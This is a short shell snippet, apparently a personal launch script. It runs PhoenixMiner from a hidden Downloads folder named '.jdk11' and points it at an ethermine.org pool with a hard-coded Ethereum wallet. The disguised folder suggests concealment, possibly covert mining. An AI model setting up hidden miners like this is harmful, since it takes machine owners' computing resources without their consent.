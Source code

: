 # abcdef


#0x5d8B14d2Dedb8d7541c2e4741ee1f8E1bB18a0a0



#

cd ~
cd /home/cseblockchain/Downloads/.jdk11/PhoenixMiner_6.2c_Linux/

./PhoenixMiner -pool ssl://asia2.ethermine.org:5555 -wal 0x5d8B14d2Dedb8d7541c2e4741ee1f8E1bB18a0a0.hello
